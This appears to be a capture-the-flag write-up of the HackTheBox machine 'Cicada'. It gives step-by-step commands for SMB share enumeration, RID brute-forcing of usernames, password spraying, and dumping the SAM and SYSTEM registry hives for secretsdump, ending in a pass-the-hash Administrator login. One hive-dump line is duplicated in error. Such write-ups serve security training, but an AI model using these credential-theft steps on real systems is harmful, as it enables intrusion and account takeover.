 ```yaml
---
layout: post
title: Test-post
date: 2025-02-12 13:34 +0100
description:
image:
author: lone
category: HackTheBox
tags: htb box
published: true
sitemap: false
---
```


## Inital access

From the nmap scan we can see that there are mutliples ports open.
In this case we will focus on the port 445 (smb):

![nmap_scan](assets/nmap_scan.png)

Using `smbclient` we can list the shares available:

```bash
netexec smb "10.10.11.35" -u guest -p '' --shares 
```

![shares](assets/shares.png)

Using the following command, the list of the readable shares is returned:

```bash
netexec smb "10.10.11.35" -u guest -p '' --shares --filter-shares READ WRITE
```

![shares_filter](assets/shares_filter.png)

Using smbclient we can access the share `HR`:

```bash
smbclient -no-pass guest@10.10.11.35
use HR
```

![HR_share](assets/HR_share.png)

The file `Notice from HR.txt` can be retrieved and contains the following information:

> Dear new hire!
>
> Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.
>
>Your default password is: "PASSWORD"
>
>To change your password:
>
>1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
>2. Once logged in, navigate to your account settings or profile settings section.
>3. Look for the option to change your password. This will be labeled as "Change Password".
>4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
>5. After changing your password, make sure to save your changes.
>
>Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.
>
>If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at <support@cicada.htb>.
>
>Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!
>
>Best regards,
>Cicada Corp

A password is indicated but no username is provided.
The following command can be used to list all available users:

```bash
netexec smb 10.10.11.35 -u guest -p "" --rid-brute | grep "idTypeUser"
```

![users](assets/users.png)

The output of the command is saved to a file and the following command is used to extract the usernames:

```bash
sed -E 's/.*CICADA\\([^ ]+) .*/\1/' users.txt > usernames.txt
```

The following command is used to test the password with the found usernames:

```bash
netexec smb 10.10.11.35 -u usernames.txt  -p pass.txt
```

![michael](assets/michael.png)

The account of `michael.wrightson` is found to be valid.
Listing all the users with the found account, information about the user `david.orelious` is found:

```bash
netexec smb "10.10.11.35" -u 'michael.wrightson' -p pass.txt --rid-brute --users
```

![david_password](assets/david_password.png)

Using the same command as before, it is possible to see that david has access to the share `DEV`:

```bash
netexec smb "10.10.11.35" -u david.orelious -p david_pass.txt --shares --filter-shares READ WRITE
```

![DEV](assets/DEV.png)

Using smbclient, the share `DEV` can be accessed:

![backup_script](assets/backup_script.png)

The content of the retrieved file `backup_script.ps1` is the following:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

The credentials of `emily.oscars` are found in the script. The credentials are those of a local user. It is possible to access emily's account using `Evil-WinRM`.
The first flag is found in the Desktop of emily's account:

![user_flag](assets/user_flag.png)

## Privilege escalation

Using `whoami /priv` the following information is found:

![priv](assets/priv.png)

This privilege allows the user to retrieves the system hives. The following command is used to retrieve the hives:

```powershell
reg save hklm\sam sam.hive
reg save hklm\sam sam.hive
```

![hives](assets/hives.png)

After the hives are retrieved, `secretsdump` is used to extract the hashes:

```bash
secretsdump -outputfile dump.txt -sam SAM -system SYSTEM LOCAL
```

![hashes](assets/hashes.png)

With the hash of the user `Administrator`, it is possible to use `Evil-WinRM` to access the account:

```bash
evil-winrm -u administrator -H 2b87e7c93XXXX -i 10.10.11.35
```

The root flag is found in the Desktop of the Administrator account:

![root](assets/root.png)
